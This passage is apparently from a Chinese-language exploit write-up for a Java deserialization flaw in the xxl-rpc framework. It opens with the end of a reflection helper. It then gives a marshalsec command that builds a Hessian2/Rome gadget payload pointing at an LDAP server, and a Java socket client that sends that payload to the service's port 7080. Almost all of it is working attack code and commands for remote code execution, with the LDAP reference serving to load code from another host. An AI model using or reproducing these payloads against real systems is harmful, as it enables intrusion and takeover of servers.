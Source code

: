 ```
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}
```

也可以直接用marshalsec生成hessian2+rome的payload

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 Rome ldap://localhost:1389 > payload.bin
```

通过socket向7080的xxl-rpc服务端口发送序列化数据

```
import java.io.DataOutputStream;
import java.net.Socket;
import java.nio.file.Files;
import java.nio.file.Paths;


public class TcpClient {


    public static void main(String[] args) {
        try {
            byte[] DESERIALIZATION_PAYLOAD = Files.readAllBytes(Paths.get("payload.bin"));
            Socket socket = new Socket("localhost", 7080);
            DataOutputStream out = new DataOutputStream(socket.getOutputStream());
            out.writeInt(DESERIALIZATION_PAYLOAD.length);
            out.write(DESERIALIZATION_PAYLOAD);
            out.flush();
            socket.close();
        } catch (Exception ex) {
            System.err.println(ex);
        }
    }
}
```
